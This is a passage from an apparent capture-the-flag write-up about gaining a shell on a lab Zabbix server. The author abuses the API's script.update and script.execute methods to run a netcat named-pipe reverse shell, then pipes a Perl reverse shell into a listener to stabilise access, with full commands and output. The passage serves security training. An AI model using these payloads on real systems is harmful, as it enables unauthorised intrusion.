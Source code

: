 

    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.update", "id":1, "auth":"783e0eea06fa7073bf1e63082087c751", "params":{"scriptid": 4, "command": "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 443 >/tmp/f"}}' | jq -c .
    {"jsonrpc": "2.0","result": {"scriptids": [4]},"id": 1}



With a listener running (`nc -lnvp 443`), I'll hit the script.execute
api again. This time it just hangs (and eventually times out):



    root@kali# curl -s http://10.10.10.108/zabbix/api_jsonrpc.php -H "Content-Type: application/json-rpc" -d '{"jsonrpc":"2.0", "method":"script.execute", "id":1, "auth":"783e0eea06fa7073bf1e63082087c751", "params":{"hostid": 10106, "scriptid": 4}}' | jq -c .
    {"jsonrpc": "2.0","error": {"code": -32500,"message": "Application error.","data": "Connection timeout of 60 seconds exceeded when connecting to Zabbix server \"localhost\"."},"id": 1}



But in my other window, I have a shell:



    root@kali# nc -lvnp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.108.
    Ncat: Connection from 10.10.10.108:42864.
    /bin/sh: 0: can't access tty; job control turned off
    $ id
    uid=107(zabbix) gid=113(zabbix) groups=113(zabbix)
    $ horoot@kali#



But only for a second. It dies very quickly (after I get through the
`ho` in `hostname`).

#### Stable Shell

I can get around this by being ready to run a second reverse shell in
the window when it comes back. I can do this programmatically using
`cat` and pipes. I'll put a `perl` reverse shell into a file:



    root@kali# cat perl.shell 
    perl -e 'use Socket;$i="10.10.14.14";$p=445;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'



Then I'll start my listener on 443 with that shell being `cat` into it:



    root@kali# cat perl.shell | nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
